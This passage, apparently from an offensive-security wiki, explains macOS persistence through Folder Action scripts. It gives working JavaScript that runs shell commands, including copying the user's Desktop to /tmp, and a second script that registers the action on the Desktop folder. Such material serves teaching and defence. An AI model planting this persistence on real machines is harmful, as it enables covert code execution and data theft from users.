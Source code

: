 * **`/Library/Scripts/Folder Action Scripts`**
  * Root required
  * **Trigger**: Access to the specified folder
* **`~/Library/Scripts/Folder Action Scripts`**
  * **Trigger**: Access to the specified folder

#### Description & Exploitation

A Folder Action script is executed when the folder to which it is attached has items added or removed, or when its window is opened, closed, moved, or resized:

* Open the folder via the Finder UI
* Add a file to the folder (can be done via drag/drop or even in a shell prompt from a terminal)
* Remove a file from the folder (can be done via drag/drop or even in a shell prompt from a terminal)
* Navigate out of the folder via the UI

There are a couple ways to implement this:

1. Use the [Automator](https://support.apple.com/guide/automator/welcome/mac) program to create a Folder Action workflow file (.workflow) and install it as a service.
2. Right-click on a folder, select `Folder Actions Setup...`, `Run Service`, and manually attach a script.
3. Use OSAScript to send Apple Event messages to the `System Events.app` to programmatically query and register a new `Folder Action.`



* This is the way to implement persistence using an OSAScript to send Apple Event messages to `System Events.app`

This is the script that will be executed:

{% code title="source.js" %}
```applescript
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("touch /tmp/folderaction.txt");
app.doShellScript("touch ~/Desktop/folderaction.txt");
app.doShellScript("mkdir /tmp/asd123");
app.doShellScript("cp -R ~/Desktop /tmp/asd123");
```
{% endcode %}

Compile it with: `osacompile -l JavaScript -o folder.scpt source.js`

Then execute the following script to enable Folder Actions and attach the previously compiled script with the folder **`/users/username/Desktop`**:

```javascript
var se = Application("System Events");
se.folderActionsEnabled = true;
var myScript = se.Script({name: "source.js", posixPath: "/tmp/source.js"});
var fa = se.FolderAction({name: "Desktop", path: "/Users/username/Desktop"});
se.folderActions.push(fa);
fa.scripts.push(myScript);
```
